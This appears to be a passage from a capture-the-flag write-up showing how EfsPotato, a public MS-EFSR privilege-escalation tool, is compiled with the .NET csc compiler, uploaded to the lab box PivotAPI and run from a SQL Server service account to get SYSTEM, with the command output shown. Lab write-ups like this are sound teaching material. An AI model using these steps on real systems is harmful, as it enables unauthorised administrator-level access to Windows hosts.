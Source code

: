 [EfsPotato](https://github.com/zcgonvh/EfsPotato) is another variation on this theme. It’s using the MS-EFS RCP API to solicit authentication from the machine account.

### EfsPotato

#### Compile

I’ll download the single file, `EfsPotato.cs` from [GitHub](https://github.com/zcgonvh/EfsPotato/blob/master/EfsPotato.cs) to my Windows VM. There are compile instructions on the readme, and they are very simple. I had success using the v4 .NET compiler:

```

PS > C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe efspotato.cs
Microsoft (R) Visual C# Compiler version 4.8.4084.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

efspotato.cs(103,29): warning CS0618: 'System.IO.FileStream.FileStream(System.IntPtr, System.IO.FileAccess, bool)' is
        obsolete: 'This constructor has been deprecated.  Please use new FileStream(SafeFileHandle handle, FileAccess
        access) instead, and optionally make a new SafeFileHandle with ownsHandle=false if needed.
        http://go.microsoft.com/fwlink/?linkid=14202'

```

The warning is something that can be ignored.

It makes an EXE:

```

PS > ls .\efspotato.*

    Directory: C:\Users\0xdf\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         11/7/2021   6:21 AM          24899 efspotato.cs
-a----         11/7/2021   6:31 AM          16384 efspotato.exe

```

I’ll move that back to my Linux VM, and then upload it to `C:\programdata` on PivotAPI.

#### Execution

Running this is quite simple - it just needs the command that I want to run as SYSTEM. For example:

```

CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\ProgramData> .\efs.exe whoami
Exploit for EfsPotato(MS-EFSR EfsRpcOpenFileRaw with SeImpersonatePrivilege local privilege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.

[+] Current user: NT Service\MSSQL$SQLEXPRESS
[!]binding ok (handle=1045990)
[+] Get Token: 748
[!] process with pid: 3980 created.
==============================
nt authority\system

```